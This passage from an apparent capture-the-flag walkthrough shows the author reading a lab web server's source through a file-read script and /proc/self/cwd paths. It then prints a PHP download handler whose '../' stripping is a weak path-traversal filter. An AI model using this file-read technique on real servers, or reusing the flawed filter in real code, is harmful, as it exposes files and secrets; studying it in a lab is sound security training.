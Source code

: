 

`/download` doesn't work, nor with `index.php`, but `/download.php`
does:



    oxdf@hacky$ python read_file.py /proc/self/cwd/download/
    File not found: /proc/self/cwd/download/
    oxdf@hacky$ python read_file.py /proc/self/cwd/download/index.php
    File not found: /proc/self/cwd/download/index.php
    oxdf@hacky$ python read_file.py /proc/self/cwd/download.php
    <?php
    ...[snip]...



The full file is:



    <?php

    $file = $_GET['file'];
    $dir = 'press_package/';
    $archive = tempnam(sys_get_temp_dir(), 'archive');
    $zip = new ZipArchive();
    $zip->open($archive, ZipArchive::CREATE);

    if (isset($file)) {
            $content = preg_replace('/\.\.\//', '', $file);
            $filecontent = $dir . $content;
            if (file_exists($filecontent)) {
                if ($filecontent !== '.' && $filecontent !== '..') {
                    $content = preg_replace('/\.\.\//', '', $filecontent);
                    $zip->addFile($filecontent, $content);
                }
            }
    } else {
            $files = scandir($dir);
            foreach ($files as $file) {
                    if ($file !== '.' && $file !== '..') {
                            $zip->addFile($dir . '/' . $file, $file);
                    }
            }       
    }

    $zip->close();
    header('Content-Type: application/zip');
    header("Content-Disposition: attachment; filename=press_release.zip");
    header('Content-Length: ' . filesize($archive));

    readfile($archive);
    unlink($archive);

    ?>



It can load a single file or the contents of the `press_package`
directory. Can also confirm that it's using `file_get_content` rather
than `include`, so no execution on this path (and it's not an LFI,
though many will call it that). Nothing else useful here.
